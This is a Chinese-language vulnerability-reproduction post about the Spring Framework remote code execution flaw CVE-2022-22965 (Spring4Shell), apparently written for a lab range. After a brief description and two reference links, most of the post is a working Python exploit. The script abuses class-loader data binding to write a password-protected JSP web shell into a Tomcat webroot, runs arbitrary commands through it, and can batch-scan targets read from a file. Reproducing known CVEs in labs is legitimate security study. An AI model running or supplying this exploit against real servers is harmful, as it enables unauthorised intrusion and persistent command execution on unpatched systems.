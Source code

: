 ```yaml
---
title: CVE-2022-22965【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

Spring framework 是Spring 里面的一个基础开源框架，其目的是用于简化 Java 企业级应用的开发难度和开发周期,2022年3月31日，VMware Tanzu发布漏洞报告，Spring Framework存在远程代码执行漏洞，在 JDK 9+ 上运行的 Spring MVC 或 Spring WebFlux 应用程序可能容易受到通过数据绑定的远程代码执行 (RCE) 的攻击。

## 2. 漏洞分析

[Spring RCE 漏洞 CVE-2022-22965复现分析-CSDN博客](https://blog.csdn.net/m0_61506558/article/details/126938208)

[Spring4Shell: Zero-Day Vulnerability in Spring Framework - Rapid7 | Rapid7 Blog](https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/)

## 3. 漏洞复现

poc.py

```python
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:

        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Vulnerable，shell ip:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass




def main():
    parser = argparse.ArgumentParser(description='Spring-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310150113735.png)

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310150113737.png)
